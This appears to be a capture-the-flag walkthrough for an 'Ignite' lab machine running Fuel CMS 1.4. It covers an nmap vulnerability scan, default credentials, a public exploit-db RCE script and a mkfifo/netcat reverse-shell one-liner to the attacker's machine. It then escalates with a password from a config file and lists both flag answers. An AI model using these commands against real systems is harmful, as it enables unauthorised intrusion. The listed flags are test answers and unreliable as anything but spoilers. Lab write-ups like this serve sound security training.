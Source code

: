 # Ignite

## Summary

1. `nmap -A -T5 -sV --script vuln <IP>` -> only port 80
2. Go to `<IP>` in browser and get default admin user and password (`admin` and `admin`)
3. In the main page, we see `Fuel CMS 1.4`. Search that up in [exploit-db](https://www.exploit-db.com/exploits/47138)
4. Copy the python script and change the hosts
5. Use the script to connect to the machine and open the shell
6. Traverse the dirs manually and `cat /home/www-data/flag.txt` to get the first flag
7. In Kali machine, open netcat listener `nc -lvnp <Custom Port>`
8. In the remote python shell, `rm /tmp/f; mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc <Kali IP> <Custom Port> >/tmp/f`
9. In the remote python shell, `python -c 'import pty; pty.spawn("/bin/sh")'`
10. `su` with password `mememe` (found in the file `fuel/application/config/database.php` according to the website)
11. `cat /root/root.txt` to get the second flag

## Solutions

1. Root it!

   1. `6470e394cbf6dab6a91682cc8585059b`
   2. `b9bbcb33e11b80be759c4e844862482d`
